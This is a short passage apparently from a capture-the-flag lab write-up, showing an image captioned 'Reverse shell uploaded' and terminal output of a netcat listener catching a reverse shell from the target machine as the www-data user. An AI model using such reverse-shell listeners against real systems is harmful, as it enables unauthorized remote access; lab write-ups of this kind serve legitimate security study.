 ![Reverse shell uploaded](/media/2020.04/registry_9.png)

    :::text
    bolt@bolt:~$ nc -l -p 4343
    Linux bolt 4.15.0-65-generic #74-Ubuntu SMP Tue Sep 17 17:06:04 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
    14:06:37 up  2:50,  2 users,  load average: 0.14, 0.08, 0.02
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    bolt     pts/2    10.10.15.63      11:35    2:21   0.01s  0.00s nc -l -p 4343
    bolt     pts/3    10.10.15.1       13:31   53.00s  0.03s  0.03s -bash
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
